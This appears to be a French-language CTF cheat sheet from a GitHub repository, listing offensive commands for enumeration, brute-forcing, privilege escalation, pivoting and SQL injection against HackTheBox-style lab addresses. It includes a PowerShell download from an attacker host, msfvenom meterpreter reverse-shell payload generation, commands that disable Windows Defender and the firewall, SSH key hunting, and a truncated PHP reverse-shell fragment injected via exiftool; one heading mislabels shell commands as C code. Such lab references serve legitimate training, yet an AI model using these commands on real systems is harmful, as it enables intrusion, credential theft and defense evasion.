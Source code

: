 # CTF-Cheat-Sheet


__Reverse shell__ :
https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md

__Scripts d’énumération automatique pour privesc__ :
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh  

__Enumération__
Voici un code en C :
nmap (
-A : détection du système et des versions
-sP : simple ping scan
-sS/sT/sA/sW/sM: Scans TCP SYN/Connect()/ACK/Window/Maimon
-sN/sF/sX: Scans TCP Null, FIN et Xmas
-sU: Scan UDP
-T4 : Définit une temporisation[0-5]
)
nmap -A -T4 -sV 10.10.10.157

nmap --script "SCRIPT" -p "PORT" "IPADDRESS"
nmap –script smb-vuln* -p 139,445 10.10.10.134
__WEB__
nikto -h "URL" -p "PORTS"
nikto -h 192.168.0.1 -p 80,443

gobuster --url "IP ADDRESS" dir --wordlist "WORDLIST" -x "EXTENSION"
gobuster –url 10.10.10.157 dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html,htm

-k -> pas de vérification du certificat SSL

smbclient --list //"IPADDRESS"/ -U ""
__Enumération des répertoires partagés accessibles en anonymous__

rpcclient -U "" -N 10.10.10.180/
__Bruteforcer les RID des comptes Windows__

crackmapexec smb DC.ustoun.local -u 'SVC-Kerb' -p /root/rockyou.txt
__Bruteforce SMB avec crackmapexec__

enum4linux -a 10.10.10.180
__Enumération SMB, RPC & co (WINDOWS)__


dirb "url" "wordlist"
dirb http://docker.hackthebox.eu:58651 /usr/share/dirb/wordlists/vulns/apache.txt

dirb options :
-a "agent" -> spécifie un user-agent
-R -> récursivité interactive
-o output.txt -> redirige l'output
wfuzz --hh="PARAM_SIZE" -w "WORDLIST" "URL".php?"PARAM_NAME"=test
wfuzz –hh=24 -w /usr/share/dirb/wordlists/big.txt http://docker.hackthebox.eu:42566/api/action.php?FUZZ=test


__Exploitation & Elévation de privilèges [LINUX] :__
python -c 'import pty; pty.spawn("/bin/sh")'
/usr/bin/script -qc /bin/bash /dev/null
__Pour obtenir un shell plus élevé, afin de passer d’un reverse shell à un shell complet__

searchsploit -t "INTITLE" "KEYWORDS" -w
searchsploit windows local smb

sudo -l
__-> liste les commandes autorisées pour l’utilisateur courant__

find / -type d -writable 2> /dev/null
__-> Liste les répertoires accessibles en écriture__

find /* -user root -perm -4000 -print 2>/dev/null
__-> Liste les binaires exécutables par l’utilisateur courant__

find / -type f -perm /6000 -ls 2>/dev/null
__-> Liste les fichiers setuid/setgid sur le système__

find / -iname "mon_fichier" -print 2>/dev/null
__-> Trouver un fichier précis sur le système__

find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
__-> Trouver des clés RSA ou des autorisations de connexion SSH__

grep -iR "passw"
__-> Rechercher du texte dans des fichiers d’une arborescence__

binwalk socute.jpg
__-> Vérifier le contenu d’une image (peut contenir des fichiers zip par exemple)__

exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>' "IMAGE"
exiftool -Comment='$sock, 1=>$sock, 2=>$sock), $pipes); ?>’ photo.png


__Exploitation & Elévation de privilèges [WINDOWS] :__
gem install evil-winrm
evil-winrm -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'
__Se connecter via le port winrm__

https://github.com/itm4n/PrivescCheck
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
__Tester les privilèges de l’utilisateur__

whoami /priv
whoami /groups
__Liste des privilèges : https://github.com/gtworek/Priv2Admin__
__Lister les privilèges de l’utilisateur courant__

Get-Services
__Lister les services (Pour vérifier les unquoted services)__

Set-ExecutionPolicy Unrestricted
__Retirer les restrictions d’exécution de scripts__

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\toto\Desktop\wget.exe')"
__Télécharger un fichier depuis un serveur web__

msfvenom -p windows/meterpreter/reverse_tcp lhost="LOCALIP" lport="LOCALPORT" -f "FORMAT" > "OUTPUTFILE"
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.100 lport=4444 -f exe > payload.exe

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py -d 2014-06-06-mssb.xlsx -i systeminfo.txt
__Vérifier les exploits disponibles en fonction du systeminfo de la victime__

https://github.com/PowerShellMafia/PowerSploit
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
__Lancer un PowerShell sans restrictions, charger PowerUp et lancer le check complet__

powershell -c "Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0"
powershell -c "Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'"
powershell -c "Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False"
netsh advfirewall set allprofiles state off
__Activer le RDP et désactiver le firewall__

Set-MpPreference -PUAProtection 0
Set-MpPreference -DisableArchiveScanning $true
Set-MpPreference -DisableIntrusionPreventionSystem $true
Set-MpPreference -DisableRealtimeMonitoring $true
__Désactiver Windows Defender en Powershell__


__Pivoting :__
__Sous Windows :__
KALI  WINDOWS1   WINDOWS2
10.10.14.33  172.16.1.1  172.16.2.1
__Ici Kali peut joindre WINDOWS1 mais pas WINDOWS2__
__Seul WINDOWS1 peut joindre WINDOWS2__

__sur le serveur (kali) :__
./chisel server --port 9000 --host 0.0.0.0 --reverse

__sur le client (WINDOWS1 172.16.1.1) :__
.\chisel.exe client 10.10.14.33:9000 R:1081:socks
__On monte un tunnel chisel et on affecte un socket sur un port du serveur Kali__

nano /etc/proxychains.conf
 socks5 127.0.0.1 1081
proxychains -q curl http://172.16.2.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre WINDOWS2__

__Sous Linux :__
KALI  LINUX1  LINUX2
10.10.14.33  10.10.10.1  10.10.12.1
__Ici Kali peut joindre LINUX1 mais pas LINUX2__
__Seul LINUXS1 peut joindre LINUX2__

Sur le serveur Kali :
ssh -ND 127.0.0.1:12000 root@10.10.10.1 -i id_rsa -v
__On monte une connexion ssh depuis Kali sur LINUX1 avec un socket sur le port 12000__

nano /etc/proxychains.conf
 socks5 127.0.0.1 12000
proxychains -q curl http://10.10.12.1
__Ensuite on modifie la configuration de proxychains sur Kali pour passer le trafic dans le socket et on peut joindre LINUX2__


__Injection SQL :__
sqlmap -u "URL" (--dbs / --tables -D "DATABASE" / --columns -D "DATABASE" -T "TABLENAME")
sqlmap -u http://bidule.fr/index.php?id= –columns -D information_schema -T USER_PRIVILEGES


__Bruteforce :__
__Cracker un hash SHA 512 avec un salage__
__Mettre dans un fichier le hash et la chaine de salage séparés par un caractère "$" puis :__
john sha512.hash -format='dynamic=sha512($p.$s)' --wordlist=rockyou.txt

__Cracker un zip chiffré avec une liste de mots de passe__
fcrackzip -u -v -D -p /usr/share/wordlists/rockyou.txt secret.zip

crunch "MIN" "MAX" "CONTENT"
crunch 4 15 « abcdefghijklmnopqrstuvwxyz »

crackmapexec ssh 192.168.193.132 -u users.txt -p rockyou.txt
__tester une liste d’utilisateur avec une liste de mot de passe (SSH, SMB, WINRM)__

hydra -l "USER" -P "WORDLIST" "IP ADDRESS" "METHOD" "URL"
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-get /monitoring

hydra -l "LOGIN" -P "WORDLIST" "URL" "METHOD""PAGE":"ARGUMENT"=^"VALUE"^:"INCORRECT STRING"" -w "THREADS" -s "PORT"
hydra -l admin -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu http-post-form « /index.php:password=^PASS^:Invalid password » -w 10 -s 45692

john --incremental "HASHFILE"
__Pour bruteforcer de façon incrémentale__

john "HASHFILE" --wordlist=/usr/share/wordlists/rockyou.txt
__Pour bruteforcer avec un dictionnaire__

__Script de bruteforce anti-CSRF :__
https://github.com/J3wker/anti-CSRF_Token-Bruteforce
